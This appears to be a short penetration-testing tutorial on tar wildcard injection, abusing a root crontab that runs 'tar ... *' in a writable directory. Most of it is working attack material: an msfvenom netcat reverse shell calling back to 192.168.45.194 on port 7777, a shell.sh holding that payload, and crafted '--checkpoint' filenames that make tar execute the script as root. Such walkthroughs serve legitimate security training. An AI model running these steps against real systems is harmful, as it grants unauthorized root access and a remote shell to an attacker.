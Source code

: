 # Wildcard Injection



## Tar wildcard Injection



### Abusing crontab wildcard

Let's say we encounter the following crontab:

```bash
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```

This type of situation is an error made by the creator of the crontab. This command try to extract every file in the current directory.&#x20;

### Exploitation

We can exploit this by creating filenames that are tar commands:

#### Create netcat reverse shell:

```bash
kali@kali$ msfvenom -p cmd/unix/reverse_netcat lhost=192.168.45.194 LPORT=7777

Payload size: 104 bytes
mkfifo /tmp/kghpgks; nc 192.168.45.194 7777 0</tmp/kghpgks | /bin/sh >/tmp/kghpgks 2>&1; rm /tmp/kghpgks
```

#### Adding malicious filenames

```bash
victim@box:/opt/admin$ echo "mkfifo /tmp/kghpgks; nc 192.168.45.194 7777 0</tmp/kghpgks | /bin/sh >/tmp/kghpgks 2>&1; rm /tmp/kghpgks" >> shell.sh

victim@box:/opt/admin$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"

victim@box:/opt/admin$ echo "" > --checkpoint=1
echo "" > --checkpoint=1

total 20
drwxr-xr-x 2 victim victim 4096 Jan 15 21:39 .
drwxr-xr-x 3 root   root   4096 Nov  2  2022 ..
-rw-rw-r-- 1 victim victim    1 Jan 15 21:39 --checkpoint=1
-rw-rw-r-- 1 victim victim    1 Jan 15 21:39 --checkpoint-action=exec=sh shell.sh
-rw-rw-r-- 1 victim victim  105 Jan 15 21:38 shell.sh

```



#### Success!&#x20;

The resulting command now runs:

```bash
CMD: UID=0     PID=28068  | tar -zxf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh shell.sh shell.sh
```
